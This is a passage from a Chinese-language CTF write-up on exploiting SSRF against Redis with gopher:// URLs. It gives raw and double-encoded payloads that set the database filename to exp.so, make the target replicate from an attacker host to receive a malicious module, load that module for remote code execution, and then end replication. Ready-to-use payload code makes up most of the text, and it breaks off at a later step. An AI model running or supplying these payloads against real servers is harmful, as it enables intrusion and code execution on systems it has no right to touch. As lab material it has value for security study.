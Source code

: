 ```
gopher://192.168.59.129:6380/_auth welcometowangdingbeissrfme6379
config set dbfilename exp.so
slaveof 192.168.59.129 15000
quit

```

二次编码后

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aconfig%2520set%2520dbfilename%2520exp.so%250D%250Aslaveof%2520192.168.59.129%252015000%250D%250Aquit%250D%250A
```

#### **4）导入模块**

```
gopher://0.0.0.0:6379/_auth welcometowangdingbeissrfme6379
module load ./exp.so
quit
```

二次编译

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Amodule%2520load%2520./exp.so%250D%250Aquit%250D%250A
```

![image-20210923200721739](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923200721.png)

模块导入成功！

#### **5）关闭主从模式**

```
gopher://192.168.59.129:6380/_auth welcometowangdingbeissrfme6379
slaveof NO ONE
quit
```

二次编码

![image-20210923200801730](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923200801.png)

![image-20210923200816198](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923200816.png)

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aslaveof%2520NO%2520ONE%250D%250Aquit%250D%250A
```

![image-20210923200921309](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923200921.png)

关闭成功！ exp的大概意思 应该伪造一个`redis`主机！ 然后传恶意流量！在靶机里生成 exp.so! 再利用so RCE！

#### **6）导出数据库**
